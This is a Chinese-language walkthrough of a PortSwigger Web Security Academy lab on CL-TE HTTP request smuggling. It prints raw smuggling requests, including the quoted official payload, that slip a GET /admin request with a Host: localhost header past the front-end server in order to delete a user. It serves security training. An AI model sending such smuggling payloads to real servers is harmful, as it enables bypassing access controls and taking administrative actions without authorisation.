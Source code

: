 ```yaml
---
title: CL-TE绕过前端服务器安全控制
id: zhfly3480
---
```


#### CL-TE绕过前端服务器安全控制

**实验地址**：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

**实验描述**：

本实验中包括一个前端和后端服务器，前端服务器不支持chunked encoding。同时本实验存在管理员系统/admin，但前端服务器限制了直接访问它。

要完成本实验，需向后端服务器走私一个http请求以访问到管理员系统并删除名为`carlos`的用户。

**实验过程**

分别访问/home和/admin，前者显示`"Not Found"`，后者显示`"Path /admin is blocked"`

![image](../img/abe3293b651b56f9b5c0bbb8fd187d80.png)

![image](../img/62df3f412e46f1c8f000da83fab453f6.png)

已提示CL-TE，即前端只识别`Content-Length`，后端只识别`Transfer-Encoding`

构造一个走私请求

```
GET /home HTTP/1.1
Host: ac6c1fff1e1b83fa809c15fe009a008d.web-security-academy.net
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ZZT6WpfyCJOaSO3LiMQrzMhEU7gIW0GE
Content-Length: 24
Transfer-Encoding: chunked

0 `GET /admin HTTP/1.1` 
```

根据返回消息可知需要使用POST方法

多次发送请求后收到提示：需要以localhost形式访问/admin

如果不成功需要多次发送请求

![image](../img/85a2cd281457fe24709b1c8f1c65e3eb.png)

添加`Host: localhost`后多次发送请求

![image](../img/2d5b2e976e3f07717fe92dd80639ecb8.png)

提示：不允许提交重复的header names，此处官网给出的解释是：

> Observe that the request was blocked due to the second request’s Host header conflicting with the smuggled Host header in the first request.
> 
> Issue the following request twice so the second request’s headers are appended to the smuggled request body instead:
> 
> * * *
> 
> ```
> >POST / HTTP/1.1
> >Host: your-lab-id.web-security-academy.net
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 116
> >Transfer-Encoding: chunked
> >
> >0
> >
> >GET /admin HTTP/1.1
> >Host: localhost
> >Content-Type: application/x-www-form-urlencoded
> >Content-Length: 10
> >
> >x=  
> > 
> ```

简言之，由于第二个请求的`Host header`与第一个请求中走私请求的`Host header`冲突，请求被阻止。

因此构造以上请求，在发送两次请求的时候，可将第二个请求http数据包附加到走私请求主体中，拼接在x=之后，成为一个请求。

最后构造删除请求即可

![image](../img/6c0e679db39a8f82967b5e82c461a8e8.png)

当然这里可以不采用以上方法，多次发送请求仍有概率成功，但成功率无法保证

![image](../img/b0569f1ebcb81976c4d425897d5bff5c.png)